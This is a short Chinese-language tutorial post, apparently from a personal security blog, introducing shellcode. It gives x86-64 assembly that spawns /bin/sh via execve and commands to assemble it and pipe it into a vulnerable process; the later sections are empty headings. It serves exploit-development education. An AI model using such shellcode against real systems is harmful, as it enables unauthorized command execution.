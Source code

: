 ```yaml
---
layout: post
tags: [pwn]
title: "shellcode"
date: 2024-8-8
author: wsxk
comments: true
---
```


- [1. 介绍: shellcode是什么](#1-介绍-shellcode是什么)
- [2. 编写shellcode](#2-编写shellcode)
- [3. debugging shellcode](#3-debugging-shellcode)
- [4. Forbidden Bytes](#4-forbidden-bytes)
- [5. Common Gotchas](#5-common-gotchas)
- [6. Cross-Architecture shellcode](#6-cross-architecture-shellcode)
- [7. Data Execution Prevention](#7-data-execution-prevention)


## 1. 介绍: shellcode是什么<br>
谈起`shellcode`，就要谈起`冯诺依曼架构(Von Neumann Architecture)和哈佛架构(Harvard Architecture)`了<br>
冯诺依曼架构把代码和数据等同的，而哈佛架构设计上就把代码和数据隔离开来。<br>
当今几乎所有架构，例如`x86, ARM, MIPS, PPC(power pc), SPARC(Scalable Processor Architecture,国际最流行的risc体系架构, etc`，都是冯诺依曼架构。<br>
更多了解[https://zhuanlan.zhihu.com/p/481536761](https://zhuanlan.zhihu.com/p/481536761)<br>
哈佛架构只被用在`AVR, PIC`里（这俩架构都主要用在单片机上）<br>
当冯诺依曼架构中，因为数据和代码是混合在一起的，这就导致了`shellcode`的产生<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-3-25/20240808221010.png)
上图中，因为一个编程失误，导致**用户输入(data)被作为代码(code)执行**。<br>

## 2. 编写shellcode<br>
`shellcode`之所以叫`shellcode`，是因为**利用的目标就是达成任意命令执行**,而一个经典的攻击模式就是启动`shell`:`execve("/bin/sh", NULL, NULL)`<br>
```asm
.global _start
_start:
.intel_syntax noprefix
mov rax, 59		# this is the syscall number of execve
lea rdi, [rip+binsh]	# points the first argument of execve at the /bin/sh string below
mov rsi, 0		# this makes the second argument, argv, NULL
mov rdx, 0		# this makes the third argument, envp, NULL
syscall			# this triggers the system call
binsh:				# a label marking where the /bin/sh string is
.string "/bin/sh"
```
在写完`asm`后，介绍一下编译等涉及汇编的命令吧<br>
```
1. Assembling shellcode:
gcc -nostdlib -static shellcode.s -o shellcode-elf

2. Extracting shellcode:
objcopy --dump-section .text=shellcode-raw shellcode-elf

3. Disassembling shellcode:
objdump -M intel -d shellcode-elf

4. Sending shellcode to the stdin of a process (with user input afterwards):
cat shellcode-raw /dev/stdin | /vulnerable_process

5. Strace a program with your shellcode as input:
cat shellcode-raw | strace /vulnerable_process

6. Debug a program with your shellcode as input:
gdb /vulnerable_process
(gdb) r < shellcode-raw
```

## 3. debugging shellcode<br>

## 4. Forbidden Bytes<br>

## 5. Common Gotchas<br>

## 6. Cross-Architecture shellcode<br>

## 7. Data Execution Prevention<br>